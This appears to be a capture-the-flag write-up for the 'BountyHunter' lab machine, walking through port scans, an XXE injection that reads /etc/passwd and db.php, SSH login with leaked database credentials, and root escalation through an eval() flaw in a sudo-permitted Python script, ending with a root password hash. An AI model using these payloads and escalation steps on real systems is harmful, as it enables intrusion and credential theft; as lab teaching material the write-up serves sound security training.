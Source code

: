 # BountyHunter - XXE | Sudo

# Enumeration

```other
⛩\> nmap -p- -sV -sC -v -oA enum --min-rate 4500 --max-rtt-timeout 1500ms --open 10.129.156.6
Nmap scan report for 10.129.156.6
Host is up (0.39s latency).
Not shown: 64344 closed ports, 1189 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only two ports are open on target machine.

![Screen Shot 2021-07-28 at 22.46.33.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/465925A8-AE1E-431E-8191-9D8C348726D3_2/Screen%20Shot%202021-07-28%20at%2022.46.33.png)

Nothing interesting on homepage.

![Screen Shot 2021-07-28 at 22.47.04.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/AFC96559-A86A-448C-8E72-C2460E8A4DAE_2/Screen%20Shot%202021-07-28%20at%2022.47.04.png)

Portal page is under development and there’s another link to test bounty tracker.

![Screen Shot 2021-07-28 at 22.48.30.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/56C712ED-9284-4DC9-B071-6DBC921783EA_2/Screen%20Shot%202021-07-28%20at%2022.48.30.png)

![Screen Shot 2021-07-28 at 22.49.07.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/D6DA9744-08B5-456E-874C-AE26856EFE15_2/Screen%20Shot%202021-07-28%20at%2022.49.07.png)

No database is present, so it’s just displaying the input text.

![Screen Shot 2021-07-28 at 22.51.20.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/6DBA14F2-EC64-4B65-9CE7-49A69AFDBC9F_2/Screen%20Shot%202021-07-28%20at%2022.51.20.png)

intercept the request in burp and we’d see encoded data. Let’s decode it via cyberchef tool.

![Screen Shot 2021-07-28 at 22.56.30.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/DBAA3221-3AA2-4B97-BC6E-CB04D72299AA_2/Screen%20Shot%202021-07-28%20at%2022.56.30.png)

The data is encoded in base64 and url. The output is in XML format. So, we can try XXE Injection attack.

![Image.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/481B233C-5617-4606-B790-41F987214B7D_2/Image.png)

Let’s try to read the password file.

![Image.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/741DD2E7-E578-48C1-81E4-2FB69F0B429A_2/Image.png)

We can read local files via XXE. I tried to read SSH keys of ‘development’ user but it didn’t work. Let’s find any interesting files via directory bruteforce.

```other
⛩\> gobuster dir -u http://10.129.156.6 -b 403,404 -t 30 -w ~/tools/SecLists/Discovery/Web-Content/raft-small-words.txt -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.156.6
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /home/kali/tools/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/07/29 06:48:01 Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 309] [--> http://10.129.156.6/js/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.156.6/css/]
/assets               (Status: 301) [Size: 313] [--> http://10.129.156.6/assets/]
/db.php               (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 25169]
/resources            (Status: 301) [Size: 316] [--> http://10.129.156.6/resources/]
/.                    (Status: 200) [Size: 25169]
/portal.php           (Status: 200) [Size: 125]
```

DB file looks interesting and the size is 0, perhaps we can read it via XXE attack. For this we have to use PHP wrapper, the reason behind this is, we do not know the path of db.php file, it can be anywhere. Using PHP wrapper we can read present working directory files, if we know the filename.

![Screen Shot 2021-07-29 at 00.02.45.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/CD4D97C9-0EEB-41ED-8EDC-27C9F2527FA8_2/Screen%20Shot%202021-07-29%20at%2000.02.45.png)

[CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgYmFyIFNZU1RFTSAicGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT1kYi5waHAiPiBdPgoJCTxidWdyZXBvcnQ%2BCgkJPHRpdGxlPiZiYXI7PC90aXRsZT4KCQk8Y3dlPjEzMzc8L2N3ZT4KCQk8Y3Zzcz4xMzM3PC9jdnNzPgoJCTxyZXdhcmQ%2BMTMzNzwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg)

![Screen Shot 2021-07-29 at 00.03.06.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/ADE241F4-5AB9-45B2-89E6-8CED39E9ED51_2/Screen%20Shot%202021-07-29%20at%2000.03.06.png)

We got the response, lets decode it.

![Screen Shot 2021-07-29 at 00.03.55.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/3F736FB7-92AE-4419-9535-2A109757C139/B78879F9-C53F-492F-9BD5-8C59FA655D39_2/Screen%20Shot%202021-07-29%20at%2000.03.55.png)

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=UEQ5d2FIQUtMeThnVkU5RVR5QXRQaUJKYlhCc1pXMWxiblFnYkc5bmFXNGdjM2x6ZEdWdElIZHBkR2dnZEdobElHUmhkR0ZpWVhObExnb2taR0p6WlhKMlpYSWdQU0FpYkc5allXeG9iM04wSWpzS0pHUmlibUZ0WlNBOUlDSmliM1Z1ZEhraU93b2taR0oxYzJWeWJtRnRaU0E5SUNKaFpHMXBiaUk3Q2lSa1luQmhjM04zYjNKa0lEMGdJbTB4T1ZKdlFWVXdhRkEwTVVFeGMxUnpjVFpMSWpzS0pIUmxjM1IxYzJWeUlEMGdJblJsYzNRaU93by9QZ289)

We got the creds of database. However, database port is not exposed to the world. Let’s try this cred with ‘development’ user. We got this user information from reading /etc/passwd file previously.

```other
⛩\> ssh development@10.129.156.6
development@10.129.156.6's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

development@bountyhunter:~$ id
uid=1000(development) gid=1000(development) groups=1000(development)

development@bountyhunter:~$ cat user.txt
229647ceba92196d90a3fffe2fd8dede
```

We got access to user and read the user flag.

# Privilege Escalation

```other
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

We can run python binary as root with a python file. Let’s read the file.

```python
development@bountyhunter:~$ cat /opt/skytrain_inc/ticketValidator.py
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

The script asks for the local file and it only accepts .md extension. Then it evaluates for certain variables, based on that we can create a script to read root flag

```python
development@bountyhunter:~$ cat ex.md
# Skytrain Inc
## Ticket to root
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('cat /root/root.txt') == False
```

```shell
development@bountyhunter:~$ sudo python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
ex.md
Destination: root
02f1ef0872d3f6e3c9a7b6b9e4f038c0
Invalid ticket.
```

We got the root flag. We can replace the cat command with bash to gain root shell access.

```other
root@bountyhunter:/home/development# cat /etc/shadow
root:$6$S6D08T6aUYoEjKkH$aL7HVCr1HUlObuXmxFaXrmYgO3Bn0DwYnefBPI/ATF/At/0eplm9xBfsRoFo8NnlWFeIBzmBivxSfFtAUyfp9.:18793:0:99999:7:::
```

